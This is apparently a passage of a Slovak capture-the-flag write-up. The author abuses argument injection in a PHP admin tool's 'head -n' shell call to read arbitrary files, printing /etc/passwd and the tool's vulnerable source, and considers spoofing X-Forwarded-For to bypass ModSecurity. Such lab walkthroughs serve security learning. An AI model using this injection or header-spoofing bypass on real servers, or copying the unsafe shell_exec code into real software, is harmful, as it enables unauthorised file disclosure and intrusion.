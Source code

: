 ```
update-alternatives 2025-10-22 00:10:20: run with --quiet --install /usr/bin/awk awk /usr/bin/gawk 10 --slave /usr/share/man/man1/awk.1.gz awk.1.gz /usr/share/man/man1/gawk.1.gz --slave /usr/bin/nawk nawk /usr/bin/gawk --slave /usr/share/man/man1/nawk.1.gz nawk.1.gz /usr/share/man/man1/gawk.1.gz
update-alternatives 2025-10-22 00:10:20: link group awk updated to point to /usr/bin/gawk
update-alternatives 2025-10-22 00:10:26: run with --install /usr/bin/php php /usr/bin/php8.2 82 --slave /usr/share/man/man1/php.1.gz php.1.gz /usr/share/man/man1/php8.2.1.gz
update-alternatives 2025-10-22 00:10:26: link group php updated to point to /usr/bin/php8.2
```

pri `10 /var/log/alternatives.log -c 10` iba `update-alt`. Ale nič iné ako zobraziť súbory neviem. Zatiaľ.. Ale čo ten modsecurity off pre konkrétnu IP. Skúsim cez postmana poslať request s pridaním hlavičky `X-Forwarded-For: `

Tu sa mi už podarilo zobraziť aj cez `50 /etc/passwd` celý súbor.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
mysql:x:100:101:MySQL Server,,,:/nonexistent:/bin/false
```

A je síce pekné, že viem čítať súbory, ale potrebujem získať vlajku. Ale počkať, veď si možno budem vedieť zobraziť priamo obsah php súboru, ktorý volám.

`1000 /var/www/html/app/admin_tools.php` mi dá skutočne obsah tohto súboru.

```php
<?php
require_once 'session.php';

if ($_SESSION['user'] !== 'admin') {
    http_response_code(403);
    echo $langs['access_denied'];
    exit;
}

$output = '';
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_POST['lines'])) {
        $lines = $_POST['lines'];
        $output = shell_exec("/usr/bin/tac " . LOGINS . "| head -n " . escapeshellcmd($lines));
    }
}
?>
<!DOCTYPE html>
<html lang="<?= $_SESSION['lang'] ?>">
<head>
    <meta charset="UTF-8">
    <title><?= $langs['admin_tools'] ?></title>
    <link rel="stylesheet" href="./css/bootstrap.min.css">
```